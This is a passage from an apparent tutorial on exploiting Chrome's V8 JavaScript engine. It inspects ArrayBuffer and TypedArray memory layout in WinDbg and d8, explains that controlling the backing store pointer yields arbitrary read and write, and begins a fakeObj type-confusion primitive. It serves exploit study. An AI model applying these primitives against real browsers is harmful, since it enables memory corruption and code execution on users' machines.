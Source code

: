 As you can see, the `TypedArray` has a **buffer** property that points to our `ArrayBuffer` at address `0x02297c70d881`. The `TypedArray` also inherits the byte length property from the parent `ArrayBuffer` so it knows how much data it can read and write with its specific data format.

To better understand the structure and backing store of the array buffer object, we can use WinDbg to inspect it.

```
0:005> dq 000002297C70D881-1 L6
00000229`7c70d880  000003b5`86384371 000001d0`a7902cf1
00000229`7c70d890  000001d0`a7902cf1 00000000`00000008
00000229`7c70d8a0  00000286`692101a0 00000000`00000002
```

Upon inspection, we can see that from the top left we have our Map, properties and elements array property store pointers, followed by the byte length, and finally the backing store pointer of address `00000286692101A0`, which is at offset 32 from the start of the array buffer. 

Before we look into the backing store buffer, let's add some data to our buffer to better see the representation in memory. To write data to the `ArrayBuffer` we have to use our `TypedArray` via our `view` variable like so.

```
d8> view[0] = 65
d8> view[2] = 66
```

Now that's done, let's view this backing store in WinDbg. Take note that I do not subtract 1 from the pointer since unlike other object backing stores, an `ArrayBuffer` backing store is actually a 64-bit pointer!

```
0:005> dq 00000286692101A0 L6
00000286`692101a0  00000000`00420041 dddddddd`fdfdfdfd
00000286`692101b0  00000000`dddddddd 8c003200`1f678a43
00000286`692101c0  00000286`69d34e50 00000286`69d40230
```

Upon inspection of this memory address, we notice that in the top left we have our 8 bytes of data that we allocated for our array buffer. From the right, in index 0 we have `0x41` which is 65 and in index 2 we have `0x42` which is 66. 

As you can see, using a `ArrayBuffer` with a `TypedArray` of any data type allows us to control where we can read and write data as long as we can control the backing store pointer!

With that in mind, let's figure out how we can access this backing store pointer via our `fakeObj` primitive in order to overwrite it. Currently for both the read and write primitive we create an object for `p1` with one in-line property, and an object for `p2` which also has one in-line property. 

```js
function fakeObj() {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      let orig = obj.p${p1}.x;
      // Overwrite property x of p1, but due to type confusion
      // we overwrite property y of p2
      obj.p${p1}.x = 0x41414141n;
      return orig;
    }
  `);

    let obj = {z: 1234};
    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj}
	...
```
